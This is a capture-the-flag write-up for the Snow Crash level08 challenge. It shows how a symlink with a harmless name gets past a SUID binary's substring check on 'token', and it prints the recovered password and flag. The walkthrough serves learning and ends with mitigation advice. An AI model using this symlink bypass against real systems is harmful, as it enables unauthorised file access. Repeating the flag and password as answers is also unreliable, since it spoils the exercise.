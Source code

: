 # Level08 - Snow Crash Exploit

## Description

Upon logging in as `level08`, there are two important files in the home directory:

```
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

- `level08`: SUID executable owned by `flag08`
- `token`: file readable only by `flag08`

Running the binary without arguments shows usage information:

```bash
./level08
# Output: ./level08 [file to read]
```

Trying to read the `token` file directly fails:

```bash
./level08 token
# Output: You may not access 'token'
cat token
# Output: cat: token: Permission denied
```

## Analysis

Using `ltrace` reveals:

```
strstr("token", "token") = "token"
printf("You may not access '%s'\n", "token")
exit(1)
```

The program checks if the filename contains the substring `token` and denies access if it does.

## Exploitation

To bypass this check, create a symbolic link to the `token` file with a name that does **not** contain the word `token`:

```bash
ln -s $(realpath token) /tmp/symlink
./level08 /tmp/symlink
```

**Output:**
```
quif5eloekouj29ke0vouxean
```

Use this password to switch to the `flag08` user and retrieve the flag:

```bash
su flag08
Password: quif5eloekouj29ke0vouxean
getflag
# Output: Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Mitigation

- Do not rely on substring checks for security.
- Use proper file permission checks and avoid using only filename-based restrictions.

## Flag